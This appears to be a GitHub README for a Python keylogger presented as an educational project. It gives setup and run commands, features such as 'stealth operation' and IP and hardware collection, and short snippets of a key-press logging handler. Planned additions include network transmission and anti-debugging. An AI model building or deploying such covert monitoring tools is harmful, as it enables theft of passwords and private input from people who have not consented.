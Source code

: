 # Python Keylogger 

**A Python-based keylogger implementation demonstrating keyboard monitoring and system information collection. For educational/research purposes only.**

⚠️ **Important Legal Disclaimer** ⚠️  
This project is intended **strictly for educational purposes**. Unauthorized use to monitor devices without explicit permission is illegal. Developers assume no liability for misuse.

## Features
- **Keystroke Logging**: Records keyboard inputs with timestamps
- **System Metadata Capture**: Collects hostname, IP addresses, and hardware specs
- **Special Key Handling**: Detects Enter/Space/Backspace
- **Stealth Operation**: Runs with minimal system visibility
- **Cross-Platform**: Compatible with Windows, macOS, and Linux
- **Error Resilience**: Robust exception handling

## Project Structure
- `keylogger.py`: Core logging implementation
- **Modules**:
  - **System Profiler**: Hardware/network data collection
  - **Key Listener**: Keyboard input monitoring
  - **Log Manager**: Secure data storage handling

## Prerequisites
- Python 3.6+
- Administrative privileges (recommended)
- Network connection (for public IP detection)

## Installation & Usage
1. **Clone repository**:
```bash
git clone https://github.com/sabihhuda/Keylogger-Phyton.git
cd python-keylogger
```

2. **Install dependencies**:
```bash
pip install pynput requests
```

3. **Run keylogger**:
```bash
python keylogger.py
```

Logs will be saved to `key_log.txt` in the project directory.

## Configuration
Customize in `keylogger.py`:
```python
# Change log location
LOG_DIRECTORY = "/path/to/custom/folder/"

# Modify logging format
logging.basicConfig(
    format="[%(asctime)s] %(message)s",
    datefmt="%d-%b-%Y %H:%M:%S"
)
```

## Code Snippets
### 1. System Information Collection
```python
def collect_system_info():
    """Gather device metadata"""
    hostname = socket.gethostname()
    logging.info(f"OS Version: {platform.system()} {platform.release()}")
    logging.info(f"Architecture: {platform.machine()}")
```

### 2. Key Press Handler
```python
def on_key_press(key):
    """Process keyboard input"""
    try:
        if key == Key.space:
            logging.info("[SPACE]")
        elif key == Key.enter:
            logging.info("[ENTER]")
        else:
            logging.info(str(key).replace("'", ""))
    except Exception as e:
        logging.error(f"Key processing error: {str(e)}")
```

## Ethical Guidelines
- 🛑 **Legal Compliance**: Always obtain written consent before testing
- 🔐 **Data Security**: Treat logs as sensitive information
- ⚠️ **Responsible Disclosure**: Never deploy on unauthorized systems
- 🧹 **Cleanup**: Remove all logs after educational use

## Future Enhancements
- GUI configuration panel
- Log file encryption
- Network transmission module
- Anti-debugging techniques
- Usage time limitations

## License
MIT License - See [LICENSE](LICENSE) for details

## Contact
For educational inquiries: sabihhuda3@gmail.com  
**Note:** This project is not maintained for production use - created purely for academic demonstration.
```
